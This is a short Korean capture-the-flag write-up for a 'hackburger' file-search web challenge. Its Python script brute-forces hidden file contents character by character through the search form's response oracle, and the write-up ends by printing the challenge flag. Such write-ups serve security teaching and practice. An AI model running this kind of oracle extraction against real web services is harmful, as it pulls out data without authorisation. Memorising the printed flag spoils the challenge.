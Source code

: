 # [hackburger] File search - Writeup

파일을 검색할 수 있는 웹페이지가 있다.

input: `a`
```
cat.txt
flag.txt
```

___

## Fuzzing

Fuzzing을 해보다가 파일명 이외의 문자를 입력해도 결과가 나온다는걸 알았다.

이를 기반으로 `flag.txt`가 결과로 나오는 문자열을 찾아보니 flag가 나온다.

``` python
import urllib.parse, urllib.request
import binascii

def get_table():
	pw = ''
	for c in range(0, 128):
		if inject(chr(c)):
			pw += chr(c)
			print('find:', pw)
	print('find:', pw)

def inject(c):
	url = 'http://burger.laboratorium.ee:8004/'
	post_data = {
		'query':c
	}
	headers = {
		'Content-Type':'application/x-www-form-urlencoded'
	}
	req = urllib.request.Request(url, urllib.parse.urlencode(post_data).encode(), headers)
	res = urllib.request.urlopen(req).read().decode()

	if 'flag.txt' in res:
		return True
	else:
		return False

def main():
	pw = ''
	while True:
		is_find = False
		for c in '_0123456789ACDEFGHILSTX.':
			if inject(pw + c):
				pw += c
				print('find:', pw)
				is_find = True
				break
			print('try:', pw + c)
		if is_find == False:
			print('data:', pw)
			break

if __name__ == '__main__':
	main()
```

___

## Answer

flag: `c82584c307421228a3c5c5e4dc6a3ea31859975e`